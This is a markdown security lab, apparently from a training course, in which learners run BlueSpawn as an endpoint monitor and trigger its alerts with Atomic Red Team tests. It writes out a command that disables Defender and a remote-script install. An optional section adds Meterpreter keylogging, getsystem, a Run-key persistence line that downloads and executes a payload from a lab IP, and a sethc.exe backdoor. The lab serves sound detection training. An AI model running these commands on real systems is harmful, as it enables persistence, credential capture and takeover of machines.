


# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Now, let's open a command Prompt:

 

Simply click the Windows Start button in the lower left of your screen and type: 

`Command Prompt` 

 
Next, let’s change directories to tools and start Bluespawn:
C:\Users\adhd>`cd \IntroLabs`

C:\IntroLabs>`BLUESPAWN-client-x64.exe --monitor --level Cursory`

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell Prompt:

Lets install and update Atomic Red Team

PS C:\Users\adhd> `cd \`

PS C:\Users\adhd>`IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force`

Please note this can take a bit.

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

PS C:\Users\adhd> `cd C:\AtomicRedTeam\invoke-atomicredteam\`

Then, install the proper yaml modules

PS C:\Users\adhd> `Install-Module -Name powershell-yaml`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Import-Module .\Invoke-AtomicRedTeam.psm1`

Now, we need to invoke all the Atomic Tests.

Special note...  Don't do this in production...  Ever.  Always run tools like Atomic Red Team on test systems.  We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode.  This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest T1547.004`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest T1543.003`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest T1547.001`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest T1546.008`

If you get any “file exists” questions or errors, just select Yes.

It should look like this:

Please note, there will be some errors when this runs.  This is normal.

Please note we had to cross reference the old numbering witgh the new.

You can find that mapping here:

https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json

You should be getting a lot of alerts with Bluespawn Switch tabs in your Terminal to see them:

Now, let’s go back to the PowerShell prompt and clean up:

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All -Cleanup`

It should look like this:

# If you have more time

Feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands

Run commands

meterpreter > `keyscan_start`

meterpreter > `keyscan_dump`

meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`

meterpreter >`getsystem`

[Return To Lab List](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/navigation.md)

